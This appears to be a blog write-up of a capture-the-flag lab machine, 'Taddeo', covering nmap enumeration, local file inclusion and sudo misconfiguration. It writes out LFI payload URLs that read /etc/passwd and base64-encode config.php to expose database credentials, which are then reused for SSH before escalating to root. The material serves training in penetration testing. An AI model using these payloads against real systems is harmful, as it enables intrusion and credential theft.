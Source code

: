 ```yaml
---
title: Practical Pentest Labs | Taddeo
date: 2018-07-03 00:00:00 +0000
layout: post
categories: []
image:
  feature: "/968f7dbcabcd64f453a6ece147eda193.jpg"
  credit: ''
  creditlink: ''
description: ''
---
```

This post will describe exploitation of the Taddeo device on [PracticalPenTestLabs](https://practicalpentestlabs.com/).

## Enumeration

As is tradition, we run a full nmap scan:

```bash
nmap -Pn -p22,80,3128 -A 10.0.3.10
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-03 21:30 EDT
Nmap scan report for 10.0.3.10
Host is up (0.094s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f9:4c:ee:5c:41:f0:29:4f:95:7f:6a:c4:ed:84:ab:b3 (DSA)
|   2048 b5:93:28:83:45:8e:7e:b5:74:55:14:4c:41:c3:0a:11 (RSA)
|   256 a1:91:d7:28:ae:16:66:6f:24:36:d1:f3:3d:74:46:e6 (ECDSA)
|_  256 03:2a:6e:17:65:a9:d6:4a:10:c7:91:ca:5d:fd:39:17 (ED25519)
80/tcp   open  http       Apache httpd 2.4.7
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 230   2016-06-21 20:25  config.php
| 115   2016-06-23 19:29  file.php
| 20    2016-06-14 10:38  phpinfo.php
|_
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Index of /
3128/tcp open  http-proxy Squid http proxy 3.3.8
|_http-server-header: squid/3.3.8
|_http-title: ERROR: The requested URL could not be retrieved
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.16
OS details: Linux 3.16
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   95.01 ms 10.10.0.1
2   95.25 ms 10.0.3.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.15 seconds
```

So immediately we get a few ports we can browse. Based on what we know about this CTF network. More than likely our shell will be from the HTTP. Because we used the "-A" flag. Nmap enumerated the HTTP website and gathered some additional information that can help us prepare a plan of attack.

![](/assets/img/Screenshot from 2018-07-03 21-35-20.jpg)

On the HTTP landing page, we are greeted with a directory listing. Within this listing we have a few options: phpinfo.php; config.php & file.php

![](/assets/img/Screenshot from 2018-07-03 21-37-05.jpg)

Phpinfo.php gives us additional information on the target machine. But nothing else was gained from this page. Config.php was blank. It is possible there is content in this file but we can read the contents.

![](/assets/img/Screenshot from 2018-07-03 21-39-07.jpg)

File.php is interesting however, when we visit this page. We are greeted by a comment that says " Please specify the 'name' parameter" Okay. So if we visit "http://10.0.3.10/file.php?name=" We more than likely will get LFI.

![](/assets/img/Screenshot from 2018-07-03 21-43-26.jpg)

And Lo and Behold we get /etc/passwd by visiting http://10.0.3.10/file.php?name=/////////////////etc/passwd. Great, so now we have a user on the machine name Taddeo. We'll need this later for SSH. Now that we know we can read system files, let's see what's inside the Config.php.

![](/Screenshot from 2018-07-03 21-43-21.jpg)

By using the PHP filters we can prevent PHP code executing when used in Local File Inclusion. So we visit "http://10.0.3.10/file.php?name=php://filter/convert.base64-encode/resource=config.php" Returned is a base64 encoded string. We will need to decode this before getting the contents of the php config file. We can do this in the command line by executing:

```bash 
echo "PD9waHAKZGVmaW5lKCAnREJfTkFNRScsICd0ZXN0JyApOwoKLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovCmRlZmluZSggJ0RCX1VTRVInLCAndGFkZGVvJyApOwoKLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovCmRlZmluZSggJ0RCX1BBU1NXT1JEJywgJ3RhZGRlb0AzMjEnICk7CgovKiogTXlTUUwgaG9zdG5hbWUgKi8KZGVmaW5lKCAnREJfSE9TVCcsICdsb2NhbGhvc3QnICk7Cgo/Pgo=" | base64 -d 
```

![](/assets/img/Screenshot from 2018-07-03 21-44-14.jpg)

Once executed we will get the contents which gives us a password. Although this is a password used in MySQL. It is very common for users to re-use passwords. So let's try this out on the SSH port 22 with the user Taddeo.

![](/assets/img/Screenshot from 2018-07-03 21-51-37.jpg)

We have a shell! Awesome, but the job isn't over yet. We will need to get root access now. We fire up LinuxPrivChecker.py annnnd. Nothing, nothing interesting. Which is fine because we have a few other tricks up our sleeves before we really start digging deep. But you should always try the quick and dirty tricks first before spending a ridiculous amount of time trying to get root shell. Most times, the answer is right in front of you. Now this version is vulnerable to DirtyCow. However, DirtyCow is also Dirty and more often than not will crash these machines. So best not to use it. What we do have however is a nice prompt when we execute:

```bash
Sudo -l
```

What it reads is:

```bash
User taddeo may run the following commands on TADDEO:

    (ALL) NOPASSWD: ALL
```

![](/assets/img/Screenshot from 2018-07-03 21-55-46.jpg)

This is good. So we can run programs as sudo without using a password. So let's execute:

```bash
Sudo -s
```

and see if we can get a root shell.

Tadaa! We have root and our flag.

![](/assets/img/Screenshot from 2018-07-03 21-56-50.jpg)